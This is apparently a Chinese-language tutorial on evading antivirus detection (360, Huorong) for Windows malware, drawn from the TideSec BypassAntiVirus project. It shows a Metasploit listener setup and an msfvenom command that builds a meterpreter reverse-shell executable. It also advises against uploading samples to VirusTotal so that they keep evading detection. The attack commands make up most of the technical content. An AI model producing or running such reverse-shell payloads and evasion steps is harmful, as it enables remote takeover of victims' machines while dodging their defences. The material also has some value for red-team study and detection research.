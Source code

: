 时间：2022.05

攻击机：192.168.174.128

免杀方法：

- 此处仅介绍msf、Evasion、Veil、Venom、C/C++ Shellcode，其余方法参见原po：https://github.com/TideSec/BypassAntiVirus

原po各杀软版本：

- 360杀毒版本5.0.0.8160(2019.12.12)
- 火绒版本5.0.33.13(2019.12.12)
- 360安全卫士12.0.0.2001(2019.12.17)

本文各杀软版本：

- 火绒版本5.0.68.2(2022.05.26)
- 360安全卫士13.0.0.2003(2022.05.26)

测试平台：

- Virustotal，以下简称VT。VT查杀率代表静态查杀能力。

【注意】

- 如果是自己做免杀，建议测试机不要连互联网，更不要上传到virustotal.com类似的平台上。

- 不要上传！
- 不要上传！
- 不要上传！
- 上传一次以后，你自己辛辛苦苦写的免杀可能就不再免杀了。

## Metasploit自带免杀

Payload均使用MSF的windows/meterperter/reverse_tcp模块生成。

攻击机MSF监听6666端口：

```
msf6 > use exploits/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.174.128
msf6 exploit(multi/handler) > set LPORT 6666
msf6 exploit(multi/handler) > run
```

### 原生态payload(VT查杀率51/69)

MSF生成原始payload：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -f exe -o /mnt/hgfs/Share/payload1.exe
```

![image-20220526190423066](./images/202205261904148.png)
